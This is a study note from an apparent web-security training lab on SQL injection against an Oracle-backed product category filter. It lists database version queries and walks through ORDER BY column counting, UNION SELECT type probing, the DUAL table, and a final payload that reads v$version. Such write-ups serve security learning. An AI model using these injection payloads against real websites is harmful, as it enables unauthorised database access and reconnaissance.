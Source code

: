 ```yaml
---
title: 'Lab 7: Querying the Database type and version on O...'
updated: 2022-12-01T11:51:09.0000000+04:00
created: 2022-11-30T13:03:26.0000000+04:00
---
```


Lab 7: Querying the Database type and version on Oracle
Wednesday, November 30, 2022
1:03 PM

***Different websites have different databases:***

1.  You will need to input queries until you find one that works.

Queries you can use are listed below.

| **Database Type** | **Query**                 |
|-------------------|---------------------------|
| Microsoft, MYSQL  | SELECT @@version          |
| Oracle            | SELECT \* FROM v\$version |
| PostgreSQL        | SELECT version()          |

2.  You can implement the above in a UNION Attack, like below:
- ' UNION SELECT @@version--

**<u>(Lab-07)</u>** - **<u>SQL Injection, querying database type and version on Oracle</u>**

**SQL Injection Vulnerability** - Product Category Filter

**End Goal** - Display the database version string

**<u>Analysis:</u>**

1.  Determine the number of columns

- 'ORDER BY 1-- \|\| Resulted in 200 ok Status
- 'ORDER BY 2-- \| Resulted in 200 ok Status
- 
| 'ORDER BY 3-- | Results in Internal Server Error 500 Status |
|---------------|---------------------------------------------|

2.  Determine the Data Types of the Columns

- Test with a text value like below query:

- 
| ' UNION SELECT 'a', NULL-- | Get internal Server Error (500 Status Code) |
|----------------------------|---------------------------------------------|
| ' UNION SELECT 'a','a'--   | Get Internal Server Error (500 Status Code) |

3.  Since it is an Oracle Database, you need to perform a bit of research on it
- Go to Google and search for: Oracle Select Statement
- You will find that Oracle Select statement requires a FROM clause, when selecting.
- You will need to use a Dummy table, since you don't know any tables yet.
- You can use Oracle integrated Dual table

- 
| SQLi Query to use | ' UNION SELECT 'a','a' FROM DUAL-- |
|-------------------|------------------------------------|

![image1](image1-189.png)

4.  Outputting Database Version

- 
| SQLI Query to use | ' UNION SELECT banner, NULL FROM v\$version-- |
|-------------------|-----------------------------------------------|

![image2](image2-85.png)

